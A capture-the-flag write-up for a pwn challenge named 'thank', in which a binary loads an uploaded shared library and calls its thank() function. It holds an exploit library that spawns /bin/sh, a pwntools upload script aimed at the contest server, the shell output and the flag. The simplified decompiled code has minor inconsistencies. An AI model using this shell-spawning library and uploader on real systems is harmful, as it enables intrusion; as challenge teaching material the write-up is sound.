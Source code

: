 # thank

This program only provides an executable called "thank".

Decompiling it was rather simple with Ghidra. Several functions had the sole purpose of calling some other libc function. Here's my decompiled and simplified version of their code:
(All functions which just called another function have been changed to that other function)

```c
void take_file(char *file_name) {
  void* dll;
  long thank;
  char dll_name[40];

  snprintf(dll_name,0x20,"%s",file_name);
  dll = dlopen(dll_name,1);
  if (dll != NULL) {
    if (dlsym(dll,"thank")) {
      (*(code *)thank)();
      return;
    }
  }
  puts("Thanks for your file!");
}

void set_dll_name(char *ptr,int len,char *dll_name,int size) {
  char *end;
  int sum;

  sum = 0;
  end = ptr + len;
  while (ptr < end) {
    sum += *ptr;
    ptr++;
  } while (ptr != end);

  snprintf(dll_name,size,"/tmp/%x.so",sum);
  return;
}

void main() {
  int len;
  char *ptr, input[40];
  FILE *stream;

  len = get_file_size();
  ptr = (void *)malloc(len);
  fread(ptr,len);
  set_dll_name(ptr,len,input,0x20);
  stream = fopen(input);
  fwrite(ptr,len,stream);
  fclose(stream);
  free(ptr);
  take_file(input);
  remove(input);
}
```

From this decompiled code, it's rather clear to see that if you provide a shared library with a thank() function, it will call that.

So I wrote the following `thank.c`:
```
#include <stdlib.h>

void thank() {
    system("/bin/sh");
}
```

And compiled it with:
```
gcc -shared -o libthank.so -fPIC thank.c
```

Then used this Python program to send it:
```python
import pwn

io = pwn.remote("challs.pwnoh.io",13373)

with open("./libthank.so", "rb") as f:
    so_contents = f.read()

so_size = len(so_contents)
io.recvuntil(b'What is the size of your file (in bytes)? ')
io.sendline(str(so_size).encode())

io.recvuntil(b'Send your file!\n')
io.sendline(so_contents)

io.interactive()
```

Which gave the following:
```
# python3 exploit.py SILENT
$ ls
flag.txt
run
$ cat flag.txt
bctf{7h4nk_y0ur_10c41_c0mpu73r_70d4y}
```

Giving the flag `bctf{7h4nk_y0ur_10c41_c0mpu73r_70d4y}`



